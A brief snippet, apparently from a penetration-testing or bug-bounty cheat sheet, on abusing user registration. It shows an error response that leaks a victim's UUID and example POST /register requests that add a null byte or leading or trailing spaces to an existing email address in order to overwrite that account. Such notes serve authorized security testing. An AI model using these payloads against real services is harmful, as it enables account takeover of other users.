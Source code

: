 ##### Registering with victim's email. The response may leak UUID of victim
````
{"error":"this user already exists", 
"ref":"773u-33f5d-3r5v-353v"}
````
#### Register with existing email so that you may overwrite the existing one. Try these tricks
- Use %00 at the end
  ```
  POST /register
  email=exisitng@gmail.com%00&password=password123
  ```
  - Use space at the end of the email
    ```
      POST /register
  email=exisitng@gmail.com &password=password123
    ```
- Use space at the begining of the email
```
  POST /register
  email= exisitng@gmail.com&password=password123
```
